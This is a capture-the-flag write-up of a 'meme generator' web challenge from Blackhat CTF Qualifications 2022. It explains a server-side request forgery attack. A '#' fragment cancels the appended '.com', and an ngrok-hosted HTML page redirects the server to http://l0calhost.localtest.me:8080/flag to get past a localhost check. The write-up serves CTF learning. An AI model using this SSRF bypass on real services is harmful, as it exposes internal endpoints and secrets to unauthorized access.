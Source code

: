 ```yaml
---
title: "meme generator challenge writeup"
header:
  teaser: "/assets/images/CTFs/black-notes/cover.png"
tags: ["CTF", "SSRF"]
date: 2022-10-01T12:49:18+34:08
toc: true
draft: false
categories:
  - Web Exploitation 
ribbon: red
---
```


This challenge was in Blackhat CTF Qualifications 2022 and we have participated under the team 0xCha0s, we have managed to solve multiple challenges. this challenge was ranked medium for 250 pts .

<!--more-->

# Enumeration

We are introduced with this page , it takes the search engine (google,duckduckgo,search encrypt) and the Query we want

![error](/assets/images/CTFs/meme-generator/20221001210834.png)

testing the application functions we can try google engine with any word , and we can see the image rendered as follows

![error](/assets/images/CTFs/meme-generator/20221001210954.png)

The request is issued to `/api/generate` with the search engine name and the query

![error](/assets/images/CTFs/meme-generator/20221001211043.png)

Playing with the searchengine i noticed it adds `.com` at the end , so for example sending firefox returns `firefox.com` result

![error](/assets/images/CTFs/meme-generator/20221001211454.png)

now we can take a look at the source code which we can find at `/source` , we can focus on the flag part.

```python
..
...
@app.route("/flag")
def flag():
    # TODO: Fix typo
    if request.remote_addr == "127.0.0.1" and request.url.startswith("http://l0calhost"):
        return os.getenv("FLAG"), 200
    return "Nice try", 200
app.run("0.0.0.0", 8080)
```

It will print the flag only if we visited the `/flag` from the localhost and the notice the requested url must start with `http://l0calhost`

So basically there are a lot of Scenarios which we can take like registering subdomain start with `l0calhost` and stuff. but we can think of other solutions ;)

# Exploitation

We want the application itself to visit the `127.0.0.1:8080/flag` and the url should start with `http://l0calhost` to pass the check

If we fire up ngrok http server and host `index.html` with the content:

```html
<html>
  <script>
    document.write("a");
  </script>
</html>
```

and at the search-engine we can use the ngrok url and add **#** at the end to comment the appended `.com` as we discussed before. and we can run javascript

![error](/assets/images/CTFs/meme-generator/20221001212539.png)

now we can try to redirect the application to visit `127.0.0.1:8080/flag` with the `document.location` method

```js
document.location = "http://127.0.0.1:8080/flag";
```

but as expected it will not pass the check of `request.url.startswith("http://l0calhost"):`

![error](/assets/images/CTFs/meme-generator/20221001212835.png)

so we need some how to make a url which start with the `http://l0calhost` and also redirect the application to the `http://127.0.0.1:8080/flag`. searching for such redirectors we can see [This](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-localhost-with-a-domain-redirection)

```cmd
http://localtest.me  ---> 127.0.0.1
```

So the mentioned domain and all wildcards points to the `127.0.0.1`

![error](/assets/images/CTFs/meme-generator/20221001213134.png)

So if we craft the following url to be redirected to it

```js
document.location = "http://l0calhost.localtest.me:8080/flag";
```

![error](/assets/images/CTFs/meme-generator/20221001213306.png)

Hosting the `index.html` in ngrok with the content

```html
<html>
  <h1>test</h1>
  <script>
    document.location = "http://l0calhost.localtest.me:8080/flag";
  </script>
</html>
```

Sending the request as follows :

![error](/assets/images/CTFs/meme-generator/20221001213419.png)

Finally we get the Flag !

![error](/assets/images/CTFs/meme-generator/20221001213359.png)
